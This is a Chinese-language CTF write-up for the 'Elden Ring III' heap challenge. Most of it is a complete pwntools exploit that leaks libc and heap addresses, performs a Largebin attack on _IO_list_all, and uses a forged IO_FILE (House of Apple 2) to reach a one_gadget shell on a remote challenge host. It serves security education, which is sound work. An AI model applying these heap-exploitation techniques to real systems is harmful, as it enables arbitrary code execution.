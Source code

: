 # Elden Ring III

*write some large notes*

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |

## 解题思路

glibc 2.32  
反编译发现只能分配large bin，那就干脆学一下Largebin attack和House of Apple吧，
以后打高版本libc都要用到

我会在参考一栏列出优质的博客，没有它们，我不能做出这题！还有就是在打Apple的时候，
要想进入overflow分支，还需要伪造的IO_FILE里`_IO_write_ptr > _IO_write_base`

另，自glibc 2.38开始，调用链发生变化，`_IO_flush_all_lockp`已更名为`_IO_flush_all`，
但是apple2仍然能打，不影响

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'

def payload(lo:int):
    global sh
    if lo:
        sh = process('./eldering3')
        if lo & 2:
            gdb.attach(sh, gdbscript='b show_note')
    else:
        sh = remote('139.196.183.57', 30273)
    libc = ELF('eldering3s/libc.so.6')
    elf = ELF('eldering')

    def addn(idx:int, size:int):
        sh.sendlineafter(b'>', b'1')
        sh.sendlineafter(b'Index', str(idx).encode())
        sh.sendlineafter(b'Size', str(size).encode())

    def deln(idx:int):
        sh.sendlineafter(b'>', b'2')
        sh.sendlineafter(b'Index', str(idx).encode())

    def edit(idx:int, content:bytes):
        sh.sendlineafter(b'>', b'3')
        sh.sendlineafter(b'Index', str(idx).encode())
        sh.sendafter(b'Content', content)

    def show(idx:int) -> bytes:
        sh.sendlineafter(b'>', b'4')
        sh.sendlineafter(b'Index: ', str(idx).encode())
        return sh.recv(7)

    def withdraw(): # quit and exit is Python builtin functions
        sh.sendlineafter(b'>', b'5')

    # leak libc and heap
    addn(0, 0x600)
    addn(1, 0x600) # guard chunk (prevent consolidating)
    addn(2, 0x600)
    addn(3, 0x600) # guard chunk
    deln(0)        # fd is around libc in Unsorted bin
    edit(0, b'\n') # 1st char is 0, so we had to make the address leak-able
    ret = show(0)
    ret = b'\0' + ret[1:6]
    edit(0, b'\0') # restore original value
    deln(2)        # fd of chunk 2 is chunk 0
    heap = show(2)
    deln(3)
    deln(1)        # restore empty heap

    dumpArena = libc.symbols['__malloc_hook'] + (libc.symbols['__malloc_hook'] - libc.symbols['__realloc_hook']) * 2
    mainArena = u64(ret[:6] + b'\0\0') - 0x60 # sub unsorted bin offset
    libcBase = mainArena - dumpArena
    success(f'\x1b[33mleak libcBase: {hex(libcBase)}\x1b[0m')
    ioListAll = libcBase + libc.symbols['_IO_list_all']
    wfileJumps = libcBase + libc.symbols['_IO_wfile_jumps']

    heapBase = u64(heap[:6] + b'\0\0') - 0x290
    success(f'\x1b[33mleak heapBase: {hex(heapBase)}\x1b[0m')

    # large bin attack
    fd = bk = libcBase + dumpArena + 0x4d0
    fdNext = heapBase + 0x290 # original values
    bkNext = ioListAll - 0x20 # write chunk 1 addr on _IO_list_all
    addn(0, 0x620)
    addn(15, 0x508)           # guard chunk
    addn(1, 0x610)
    addn(14, 0x508)           # guard chunk
    deln(0)                   # now in unsorted bin
    addn(2, 0x630)            # put chunk 0 in large bin
    deln(1)                   # now in unsorted bin
    edit(0, p64(fd) + p64(bk) + p64(fdNext) + p64(bkNext))
    addn(13, 0x630)           # put chunk 1 in large bin, trigger arbitrary write

    # house of apple 2
    forceChunk = heapBase + 0xdd0 # & chunk 1.prev_size
    fakeFile = FileStructure()    # _flags = 0, _IO_read_ptr = 0x621
    fakeFile.vtable = wfileJumps
    fakeFile._IO_write_ptr = 1
    fakeFile._wide_data = forceChunk + 0xe0
    # fakeFile._lock = lock
    fakeWideData = b'\0'*0xe0 + p64(forceChunk + 0xe0 + 0xe8) # 0xe0 bytes of 0 and _wide_vtable
    oneGadget = libcBase + 0xdf54f
    fakeWfileJumpTable = b'\0'*0x68 + p64(oneGadget)          # 0x68 bytes of 0 and __do_allocate
    # note that _flags and _IO_read_ptr is filled by chunk structure,
    # so we need to exclude them to keep the correct alignment
    edit(1, bytes(fakeFile)[16:] + fakeWideData + fakeWfileJumpTable)

    withdraw()
    sh.clean()
    sh.interactive()
```

## 参考

1. [Largebin Attack典例](https://www.anquanke.com/post/id/244018)
2. [House of Apple 2官方示例](https://bbs.kanxue.com/thread-273832.htm)
3. [House of Apple 2实操&调用链](https://ywhkkx.github.io/2022/11/10/House%20Of%20Apple-2.34-64/)
